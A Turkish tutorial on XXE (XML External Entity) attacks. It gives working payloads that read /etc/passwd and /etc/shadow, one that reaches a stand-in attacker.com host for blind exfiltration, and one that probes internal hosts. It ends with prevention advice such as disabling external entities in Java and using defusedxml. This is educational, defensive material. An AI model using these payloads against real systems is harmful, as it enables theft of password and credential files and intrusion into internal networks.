 # XXE (XML External Entity) Nedir?

**XXE (XML External Entity)**, XML verisinin işlendiği sistemlerde, kötü niyetli aktörlerin XML dosyası içinde tanımlanmış harici bir varlığı (**external entity**) kullanarak hassas dosyalara erişim sağlaması, kod yürütmesi veya hizmet reddine (DoS) neden olmasıdır. XXE saldırıları genellikle güvenlik önlemleri eksik olan XML işleyicilerinden kaynaklanır.

---

## Temel Örnek

Aşağıdaki XML, basit bir XXE saldırısı örneğidir. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

### Açıklama

#### 1. `<!DOCTYPE foo>`
- **DOCTYPE (Document Type Definition):** XML belgesinin yapısını tanımlamak için kullanılır.
- `foo`: Bu bir isimdir ve genelde anlamlı olması gerekmez. XML belgesine bir "tip" vermek için kullanılır.

#### 2. `<!ENTITY xxe SYSTEM "file:///etc/passwd">`
- **ENTITY (Varlık Tanımı):** XML içinde kullanılacak bir varlığı (entity) tanımlamak için kullanılır.
  - `xxe`: Bu, tanımlanan varlığın adıdır. Daha sonra `&xxe;` ile çağrılır.
- **SYSTEM:** Harici bir kaynağı işaret eder. 
  - Burada `file:///etc/passwd` belirtilmiştir. Bu, saldırganın sunucunun dosya sistemindeki hassas bir dosyaya erişmeye çalıştığı anlamına gelir (Linux sistemlerinde `/etc/passwd`, kullanıcı bilgilerini içerir).

#### 3. `<productId>&xxe;</productId>`
- `&xxe;`: Yukarıda tanımlanan harici varlık burada çağrılıyor. Bu, `/etc/passwd` dosyasının içeriğini alıp XML çıktısına eklemeye çalışır.

### Neden Gerekli?
Bu yapı, kötü niyetli bir saldırganın XML işlemcisini istismar edebilmesi için gereklidir:
- `DOCTYPE` ve `ENTITY` olmadan harici bir varlık tanımlanamaz.
- `SYSTEM` olmadan, sunucunun dosya sistemine veya harici kaynaklara erişim mümkün değildir.

**Beklenen Etki:**
Sunucu, `/etc/passwd` dosyasının içeriğini döndürebilir, böylece saldırgan hassas bilgiler elde eder.

---

## Daha İleri Seviye XXE Payload'ları

### 1. **Sunucu Dosyalarına Erişim**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/shadow">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Bu payload, Linux sisteminde kullanıcı şifrelerinin hash'lerini saklayan `etc/shadow` dosyasına erişmeye çalışır.

**Risk:**
- Erişim sağlanması durumunda, saldırgan brute force veya hash kırma araçlarıyla kullanıcı şifrelerini çözebilir.

### 2. **Harici Sunucu ile İletişim (Blind XXE)**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-data"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Harici bir sunucuya (ör. saldırganın kontrolündeki `attacker.com`) veri sızdırmak veya sistemin ağ içinde hangi kaynaklara erişebileceğini keşfetmek.

**Senaryo:**
- Eğer sunucu dış bağlantılara izin veriyorsa, bu saldırı hassas bilgilerin (örn. erişim token'ları veya sistem yapılandırma bilgileri) harici sunucuya gönderilmesine neden olabilir.

### 3. **Ağ İçi Keşif ve Port Taraması**

**Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

**Amaç:**
- Sunucunun ağ içinde hangi dahili sistemlere erişebildiğini belirlemek.
- Dahili sunucu hizmetlerini keşfetmek (örn. `http://internal.vulnerable-website.com`).

**Risk:**
- Dahili hizmetlere erişim sağlanırsa, saldırgan sistemler arasında zafiyet arayabilir.

---

## XXE Önleme Yöntemleri

1. **Dış Varlıkları Devre Dışı Bırakma**
   - XML işlemcisinde harici varlıkları devre dışı bırakmak en etkili yöntemlerden biridir.
   - Örneğin, Java'da harici varlıkları devre dışı bırakmak:
     ```java
     DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
     dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
     dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
     dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
     ```

2. **Güvenli XML İşleme Kütüphaneleri Kullanma**
   - Harici varlıkları varsayılan olarak devre dışı bırakan güvenli kütüphaneler tercih edilmelidir (örn. `defusedxml` Python için).

3. **Input Doğrulama ve Filtreleme**
   - Kullanıcıdan gelen XML girişini doğrulamak ve potansiyel zararlı içerikleri filtrelemek.

4. **XML Yerine JSON Kullanımı**
   - Mümkünse, JSON gibi daha az karmaşık ve daha güvenli veri formatlarına geçiş yapılabilir.

---

## Özet
XXE saldırıları, zayıf yapılandırılmış XML işleyicilerinde ciddi güvenlik riskleri oluşturur. Bu zafiyetleri anlamak ve önleyici önlemler almak, uygulama güvenliği açısından kritik öneme sahiptir.
